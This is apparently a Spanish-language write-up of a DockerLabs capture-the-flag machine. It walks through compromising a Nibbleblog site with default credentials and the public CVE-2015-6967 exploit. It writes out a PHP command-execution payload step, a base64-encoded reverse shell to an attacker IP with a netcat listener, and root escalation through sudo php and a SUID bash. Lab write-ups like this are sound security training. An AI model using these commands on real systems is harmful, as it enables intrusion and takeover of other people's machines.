




# Maquina ChocolateLovers - DockerLabs.es

Verificar que la maquina este desplegada correctamente

Realizamos un ping a la máquina para verificar la comunicación y confirmamos que la conexión es exitosa.

A continuación, realizamos un escaneo de la IP utilizando Nmap.

Observamos que el puerto 80 esta abierto. Ahora realizamos un escaneo adicional para detectar, enumerar servicios y versiones.

Vemos que el puerto 80 correo un servicio de Http Apache 2.4.41, si accedemos desde el navegador veremos lo siguiente

Al revisar el código fuente de la página, podemos observar un comentario que incluye una ruta de la forma `/nibbleblog`.

Si accedemos a esa ruta, encontraremos lo siguiente:

Observamos que hay un enlace que dice `http://172.17.0.2/nibbleblog/admin.php`. Al acceder a este enlace, seremos redirigidos a una página de inicio de sesión.

Si intentamos iniciar sesión con credenciales comunes, como el usuario `admin` y la contraseña `admin`, descubriremos que es posible acceder al sistema.

Si realizamos una breve búsqueda en Google sobre ¿Qué es Nibbleblog?, descubriremos que se trata de un CMS diseñado para crear blogs.

Al acceder a la sección de "Settings" de la aplicación, podemos encontrar la versión del CMS en la parte inferior de la página.

Si buscamos un exploit para esa versión de Nibbleblog, encontraremos varios disponibles en GitHub. En mi caso, clonaremos el repositorio correspondiente utilizando el siguiente comando:

`git clone https://github.com/dix0nym/CVE-2015-6967.git`

Al examinar el código fuente del exploit, notamos que requiere varios parámetros, tales como la URL, el nombre de usuario, la contraseña y un payload que se subirá al servidor.

Ahora crearemos un Payload en PHP para usarlo en el parametro que lo requiere...

Creare el Payload de la siguiente manera, esto me permitira ejecutar comandos en el sistema desde un parametro llamado `cmd` que recibira el archibo `pwned.php` al ser llamado...

Ahora ejecutaremos el exploit que descargamos de la siguiente manera:

`python exploit.py --url http://172.17.0.2/nibbleblog/ --username admin --password admin --payload nombrePayload.php`

Y notaremos que aparece un error que indica "Upload likely failed".

Al analizar detenidamente el código fuente del exploit, notamos que su función principal es aprovecharse de un plugin llamado **My Image**, que aparentemente permite la subida de archivos. Además, observamos que el exploit intenta ejecutar un archivo llamado **image.php**, que debe haber sido subido previamente.

Si revisamos la lista de plugins instalados en Nibbleblog, notaremos que el plugin **My Image** no está presente.

Entonces, procederemos a instalar el plugin **My Image** y, a continuación, intentaremos ejecutar el exploit nuevamente.

Ahora podemos observar que el archivo se ha subido correctamente.

Si revisamos la ruta `http://172.17.0.2/nibbleblog/content/private/plugins/my_image/`, podremos ver el archivo `image.php`.

Además, al utilizar el parámetro cmd definido en el payload que subimos, podemos ejecutar comandos a nivel de sistema.

Ahora solamente tenemos que enviarnos una reverse shell a nuestra maquina atacante.

Convertimos nuestra reverse shell (que se conecta al puerto 4444) en Base64 usando el siguiente comando:

`echo "sh -i >& /dev/tcp/172.16.1.131/4444 0>&1" | base64`

Esto produce el siguiente resultado en Base64:
`c2ggLWkgPiYgL2Rldi90Y3AvMTcyLjE2LjEuMTMxLzQ0NDQgMD4mMQo=`

Ahora, pondremos nuestra máquina atacante a la escucha utilizando Netcat con el siguiente comando:

`nc -nvlp 4444`

Ahora, si enviamos el siguiente comando en el parámetro cmd del archivo `image.php`:

`echo "c2ggLWkgPiYgL2Rldi90Y3AvMTcyLjE2LjEuMTMxLzQ0NDQgMD4mMQo=" | base64 -d | bash`

Desde el navegador, podemos hacerlo de la siguiente manera:
Ingresamos la siguiente URL en el navegador:

`http://172.17.0.2/nibbleblog/content/private/plugins/my_image/image.php?cmd=echo%20%22c2ggLWkgPiYgL2Rldi90Y3AvMTcyLjE2LjEuMTMxLzQ0NDQgMD4mMQo%3D%22%20%7C%20base64%20-d%20%7C%20bash`

Y luego presionamos enter.

Esto ejecutará el comando, y deberíamos recibir una conexión en Netcat, confirmando que hemos logrado acceder al sistema.

## Tratamiento de la TTY

**Para trabajar de manera mas cómoda haremos lo siguiente:**
Una vez estemos dentro ejecutamos el siguiente comando: `script /dev/null -c bash`

Luego presionamos: `Ctrl + Z` para suspender el proceso

A continuación, escribimos: `stty raw -echo; fg`

Despues ingresamos: `reset`

Cuando se nos pregunte: "Terminal type?" Ingresamos `xterm`.

Finalmente, exportamos las siguientes variables de entorno: `export TERM=xterm` `export SHELL=bash`

Y listo!

## Escalada de Privilegios

Si ejecutamos sudo -l, observaremos que tenemos permisos para ejecutar el binario /usr/bin/php como el usuario chocolate sin necesidad de proporcionar una contraseña. Podemos aprovechar estos permisos para escalar nuestros privilegios al usuario chocolate de la siguiente manera:

`sudo -u chocolate /usr/bin/php -r "system('/bin/bash');"`

Después de ejecutar este comando, deberíamos ver que ahora somos el usuario chocolate.

Si ejecutamos el comando `ps -faux`, veremos que el usuario root está ejecutando un script ubicado en la ruta `/opt/script.php`.

Al revisar el contenido de ese archivo, notamos que no contiene información interesante. Sin embargo, como somos los propietarios del archivo con el usuario chocolate, podemos modificarlo para incluir código PHP que se ejecute con privilegios de root. Esto nos permitirá abrir una puerta trasera y facilitar la escalada de privilegios.

Lo que haremos será editar dicho archivo y agregar lo siguiente:

`echo "<?php system('chmod +s /bin/bash'); ?>" > script.php`

Esto lo que hara es dar permisos SUID a la `bash`, lo cual podemos explotar luego para escalar privilegios...

Ahora si vemos los permisos que tiene la `/bin/bash` notaremos una letra `s` que quiere decir que tiene permisos SUID...

Ahora explotaremos esos permisos agregados a la `bash` de la siguiente manera `/bin/bash -p`

Y vemos que ahora somos root.

